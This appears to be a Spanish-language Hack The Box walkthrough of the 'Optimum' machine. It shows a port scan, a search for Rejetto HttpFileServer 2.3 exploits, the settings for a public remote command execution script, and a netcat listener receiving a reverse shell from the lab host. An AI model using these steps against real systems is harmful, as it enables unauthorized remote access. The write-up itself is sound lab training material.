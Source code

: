 ```yaml
---
title:  "Optimum - Hack The Box"
classes: wide
---
```


![styled-image](https://haoxgit.github.io/haox/assets/images/optimum/Optimum.png){: .align-center style="width: 50%;"}

Optimum es una máquina sencilla basada en vulnerar una versión obsoleta de Windows. Para obtener la shell inicial hemos vulnerado la versión 2.3 de HTTP File Server. Desde aqui hemos ejecutado herramientas automatizadas adaptandonos al enotno del sistema operativo y buscando soluciones para poder escalar privilegios en esta versión concreta.

**Portscan**
```
sudo nmap -sC -sV -p- 10.10.10.8   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 11:57 CEST
Nmap scan report for 10.10.10.8
Host is up (0.054s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 131.59 seconds
```

**Web**

Accediendo al sitio web confirmamos la presencia del servicio HTTPFileServer que habíamos visto en el escaneo nmap.

![image-left](https://haoxgit.github.io/haox/assets/images/optimum/web.png){: .align-center}

Hemos utilizado searchsploit para detectar vulnerabilidades relacionadas con la versión actual.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
----------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)       | windows/webapps/49125.py
----------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

**Shell de Usuario**

Adicionalmente podemos realizar una busqueda en google tal como "HttpFileServer exploit" y nos apareceran otros tantos como por ejemplo https://www.exploit-db.com/exploits/49584

Para poder ejecutar el script debemos de modificar el valor lhost y lport por nuestra IP local y el puerto a la escucha que vamos a usar para recibir la shell. Los valores rhost y rport corresponderan a la máquina víctima, en este caso:
```
lhost = "10.10.14.10"
lport = 4444
rhost = "10.10.10.8"
rport = 80
```

Para ejecutar el exploit simplemente realizaremos:
```
python3 hfs.py
```

En nuestro netcat a la escucha deberíamos obtener una shell.
```
┌──(kali㉿kali)-[~/htb/optimum]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.8] 49163

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```